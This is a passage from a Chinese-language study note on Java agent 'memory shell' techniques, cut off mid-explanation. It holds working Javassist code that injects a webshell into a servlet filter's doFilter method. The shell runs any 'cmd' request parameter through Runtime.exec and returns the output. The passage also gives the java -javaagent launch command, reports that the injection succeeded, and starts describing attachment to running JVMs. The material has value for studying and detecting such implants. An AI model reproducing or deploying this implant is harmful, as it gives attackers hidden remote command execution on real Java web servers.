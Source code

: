 ```java
            try {
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore("javax.servlet.http.HttpServletRequest req =  $1;\n" +
                        "javax.servlet.http.HttpServletResponse res = $2;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                // 将 c 从 classpool 中删除以释放内存
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}
```



随后将该内容打 jar 包，之后将其启动

```powershell
java -javaagent:I_premain.jar -jar SpringDemo.jar
```

![image-20240311154518684](R:\languages\Java\study\Agent_Tech\pic\image-20240311154518684.png)

发现注入成功。



### agentmain-启动后加载 agent

我们内存马注入的情况都是处于 JVM 已运行了的情况，所以上面的方法就不是很有用，不过在 jdk 1.6 中实现了attach-on-demand（按需附着），我们可以使用 Attach API 动态加载 agent ，然而 Attach API 在 tool.jar 中，jvm 启动时是默认不加载该依赖的，需要我们在 classpath 中额外进行指定
